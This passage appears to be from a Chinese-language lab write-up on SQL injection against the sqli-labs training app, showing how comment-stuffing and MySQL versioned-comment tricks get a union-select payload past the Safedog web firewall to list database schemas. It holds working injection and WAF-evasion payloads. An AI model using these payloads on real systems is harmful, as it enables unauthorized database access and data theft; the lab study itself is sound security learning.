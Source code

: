 再次发现安全狗对`information_schema`了防御

<img src="%E6%A9%99%E5%AD%90%E7%A7%91%E6%8A%80.assets/image-20230608174319537.png" alt="image-20230608174319537" style="zoom:50%;" />

尝试往`information_schema`中间加入注释符，成功绕过

```
http://192.168.231.131/sqli-labs-master/Less-1/?id=-1' union /*//--/*/ select 1,group_concat(schema_name),3 from /*//--/*/information_/*//--/*/schema%23
```



<img src="%E6%A9%99%E5%AD%90%E7%A7%91%E6%8A%80.assets/image-20230608174403861.png" alt="image-20230608174403861" style="zoom:50%;" />

这里在网上看到这条payload，大概意思应该是这样

```sql
# 使用 /*!*/ 使得 # 的注释功能生效，注释掉后面的abc字符串，再使用换行来逃过 # 的注释，1 为要查询的信息，最后使用*/来闭合注释
mysql> select /*!#abc
    -> 1*/;
+---+
| 1 |
+---+
| 1 |
+---+
1 row in set (0.00 sec)

/*!--+/*%0ainformation_schema.schemata*/ 完整解释
/*!--+  使得 --+ 注释功能生效
/*xxx*/ 混淆WAF
%0a		回车逃过 --+ 的注释
*/		最后使用 */ 来闭合前面的 /*
```
